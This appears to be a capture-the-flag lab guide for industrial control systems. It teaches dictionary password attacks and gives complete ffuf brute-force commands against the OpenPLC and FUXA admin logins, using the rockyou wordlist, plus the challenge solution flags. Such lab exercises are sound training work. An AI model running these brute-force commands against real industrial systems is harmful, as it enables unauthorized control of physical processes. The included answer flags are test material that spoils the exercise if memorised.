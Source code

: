 # Password attack
A dictionary attack is a common method used to crack passwords by systematically attempting all the words in a pre-defined list, or "dictionary," until the correct one is found.
This type of attack leverages the tendency of users to choose simple, common passwords, such as "password," "123456," or "qwerty." By using a comprehensive dictionary that includes common words, phrases, and variations, attackers can quickly break into accounts that are protected by weak or predictable passwords.

## Password attack on OpenPLC
In this example we try to get the password of the openplc login using the password fuzzer [ffuf](https://github.com/ffuf/ffuf).  

### Check response
OpenPLC is running at [http://<DEVICE_IP>:8080/login](http://<DEVICE_IP>:8080/login]).
After entering wrong credentials, this page is displayed:  
![bad credentials](doc/wrong_login.png)

When the browsers built in developer console is open during the request, we can see the what is sent and received when we try to login. E.g. in chrome with F12  
![login request](doc/login_request.png)

And the sent payload  
![login payload](doc/login_payload.png)

### Download
```sh
mkdir ~/ffuf
cd ~/ffuf
wget https://github.com/ffuf/ffuf/releases/download/v2.1.0/ffuf_2.1.0_linux_amd64.tar.gz
tar xf ffuf_2.1.0_linux_amd64.tar.gz
```

### Get a wordlist
```sh
wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

### ffuf
Start fuff with:
- `-w ./rockyou.txt` the downloaded wordlist
- `-X POST -H "Content-Type: application/x-www-form-urlencoded"` information from the login request
- `-d "username=admin&password=FUZZ"` information form the login request payload (FUZZ is replaced by ffuf)
- `-u http://$DEVICE_IP:8080/login` the request
- `-fs 4561` the length of the response on wrong login
```sh
./ffuf -v -w ./rockyou.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -raw -u http://$DEVICE_IP:8080/login -fs 4561
```

For more info start it without parameters
```sh
./ffuf
```

### Find the flag
The flag has the format "CybICS(flag)".

**Hint**: The flag is part of the user information.
<details>
  <summary><strong><span style="color:orange;font-weight: 900">Solution</span></strong></summary>
  
  ##
  :anger: Flag: CybICS(0penPLC)
  ![Flag OpenPLC Password](doc/flag.png)
</details>

## Password attack on FUXA
Use the previous knowledge to fuzz the admin login of FUXA.
FUXA is running at [http://<DEVICE_IP>:1881](http://<DEVICE_IP>:1881). 

### Find the flag
The flag has the format "CybICS(flag)".

**Hint**: The flag appears after successful login on the HMI.
<details>
  <summary><strong><span style="color:orange;font-weight: 900">Solution</span></strong></summary>
  
```sh
./ffuf -v -w ./rockyou.txt -X POST -H "Content-Type: application/json" -d '{"username": "admin", "password": "FUZZ"}' -raw -u http://$DEVICE_IP:1881/api/signin -fr "error"
```


  :anger: Flag: CybICS(FU##A)
  ![Flag FUXA Password](doc/flag2.png)
</details>